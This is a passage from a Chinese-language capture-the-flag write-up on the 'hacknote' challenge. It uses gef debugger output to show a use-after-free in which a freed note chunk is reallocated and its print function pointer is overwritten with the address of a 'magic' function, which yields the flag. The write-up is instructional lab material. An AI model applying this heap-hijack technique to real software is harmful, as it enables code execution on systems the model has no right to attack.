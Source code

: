 **申请note2的content的内存地址为0x804b008，就是note0对应的地址，即此时我们向note2的content写内容，就会将note0的put字段覆盖。**

```asm
gef➤  n 1
[+] Heap-Analysis - malloc(8)=0x804b008
[+] Heap-Analysis - malloc(8)=0x804b008
0x08048761 in add_note ()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ registers ]────
$eax   : 0x0804b008  →  0x00000000
$ebx   : 0x0804b040  →  0x0804865b  →  <print_note_content+0> push ebp
$ecx   : 0xf7fac780  →  0x00000000
$edx   : 0x0804b008  →  0x00000000
$esp   : 0xffffcf10  →  0x00000008
$ebp   : 0xffffcf48  →  0xffffcf68  →  0x00000000
$esi   : 0xf7fac000  →  0x001b1db0
$edi   : 0xf7fac000  →  0x001b1db0
$eip   : 0x08048761  →  <add_note+235> add esp, 0x10
$cs    : 0x00000023
$ss    : 0x0000002b
$ds    : 0x0000002b
$es    : 0x0000002b
$fs    : 0x00000000
$gs    : 0x00000063
$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
    0x8048752 <add_note+220>   mov    al, ds:0x458b0804
    0x8048757 <add_note+225>   call   0x581173df
    0x804875c <add_note+230>   call   0x80484e0 <malloc@plt>
 →  0x8048761 <add_note+235>   add    esp, 0x10
```

我们来具体检验一下，看一下覆盖前的情况，可以看到该内存块的`printnote`指针已经被置为NULL了，这是由fastbin的free机制决定的。

```asm
gef➤  x/2xw 0x804b008
0x804b008:	0x00000000	0x0804b018
```

覆盖后，具体的值如下

```asm
gef➤  x/2xw 0x804b008
0x804b008:	0x08048986	0x0804b00a
gef➤  x/i 0x08048986
   0x8048986 <magic>:	push   ebp
```

可以看出，确实已经被覆盖为我们所想要的magic函数了。

最后执行的效果如下

```shell
[+] Starting local process './hacknote': pid 35030
[*] Switching to interactive mode
flag{use_after_free}----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
```

